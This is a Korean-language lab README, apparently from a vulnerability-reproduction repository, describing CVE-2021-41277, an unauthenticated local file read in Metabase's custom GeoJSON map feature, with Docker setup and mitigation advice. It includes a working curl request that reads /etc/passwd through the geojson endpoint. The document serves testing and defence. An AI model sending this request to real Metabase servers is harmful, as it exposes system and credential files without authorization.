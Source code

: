 # Metabase의 사전 인증 로컬 파일 포함 문제 (CVE-2021-41277)

Metabase는 오픈소스 데이터 분석 플랫폼입니다.

x.40.0 부터 x.40.4 버전에서 인증되지 않은 공격자가 로컬 파일을 읽을 수 있는 취약점이 발견되었습니다.

해당 취약점은 `custom GeoJSON map(admin → settings → maps → custom maps → add a map)`을 지원하는 부분에서 발생합니다.

URL이 로드되기 전에 유효성 검사가 이루어지지 않아, 인증되지 않은 공격자가 로컬 파일을 읽을 수 있었습니다.

## 환경 구성 및 실행
1) `docker compose up -d`를 실행하여 테스트 환경을 실행할 수 있습니다.
2) `http://your-ip:3000/`에 접속하여 Metabase 페이지를 확인할 수 있습니다.
3) `python3 poc.py` 실행 후, `your-ip:3000`을 입력하여 CVE-2021-41277 취약점이 존재함을 확인할 수 있습니다.
![](1.png)
4) 프롬프트에 `curl -v http://127.0.0.1:3000/api/geojson?url=file:///etc/passwd`를 입력하면 `/etc/passwd` 파일의 내용을 읽을 수 있습니다. 
![](2.png)

## 정리
공격자는 해당 취약점을 이용해, 서버의 `/etc/passwd`와 같은 민감한 파일에 접근할 수 있습니다.

역방향 프록시, 로드 밸런서, WAF 등에 적절한 규칙을 설정하여 유효성 검사 필터링을 제공하면, 이 문제를 완화할 수 있습니다.
